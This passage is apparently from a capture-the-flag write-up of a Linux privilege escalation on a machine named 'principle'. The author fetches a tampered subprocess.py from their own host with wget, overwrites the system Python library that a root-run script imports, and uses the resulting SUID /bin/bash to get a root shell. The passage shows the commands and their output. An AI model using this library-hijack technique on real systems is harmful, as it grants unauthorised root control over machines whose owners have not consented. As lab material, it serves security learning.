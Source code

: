 I copied `subprocess.py` to my host, I added the following code:

![[Pasted image 20240802195146.png]]

I copied the file back to target:

```bash
$ wget http://192.168.0.51/subprocess.py 
wget http://192.168.0.51/subprocess.py 
--2024-08-03 08:54:33--  http://192.168.0.51/subprocess.py
Connecting to 192.168.0.51:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 85786 (84K) [text/x-python]
Saving to: ‘subprocess.py’

subprocess.py       100%[===================>]  83.78K  --.-KB/s    in 0.001s  

2024-08-03 08:54:33 (157 MB/s) - ‘subprocess.py’ saved [85786/85786]

```

Overwrited the exising file on the target:

```bash
$ /bin/cp subprocess.py /usr/lib/python3.11/subprocess.py
/bin/cp subprocess.py /usr/lib/python3.11/subprocess.py
```

I also looked at the permissions for `/bin/bash`:

```
$ ls -lash /bin/bash
ls -lash /bin/bash
1.3M -rwxr-xr-x 1 root root 1.3M Apr 23  2023 /bin/bash
```

I decided to wait 5 minutes. The following message confirms the `reviewer.py` script has been executed:

```bash
Broadcast message from root@principle (somewhere) (Fri Aug  2 14:50:01 2024):  
                                                                               
I have detected an intruder, stealing accounts: elohim
```

Looking at `/bin/bash` again, we see the SUID bit has been set:

```bash
$ ls -lash /bin/bash
ls -lash /bin/bash
1.3M -rwsr-xr-x 1 root root 1.3M Apr 23  2023 /bin/bash
```

Executing bash we get to the root user:

```bash
$ /bin/bash -p
/bin/bash -p
bash-5.2# whoami && id
whoami && id
root
uid=1001(elohim) gid=1001(elohim) euid=0(root) groups=1001(elohim),1002(sml)
bash-5.2# cd /root
cd /root
bash-5.2# ls -lash
ls -lash
total 40K
4.0K drwx------  5 root root 4.0K Jul 14  2023 .
4.0K drwxr-xr-x 18 root root 4.0K Jul 11  2023 ..
   0 -rw-------  1 root root    0 Jul 14  2023 .bash_history
4.0K -rw-r--r--  1 root root  597 Jul  7  2023 .bashrc
```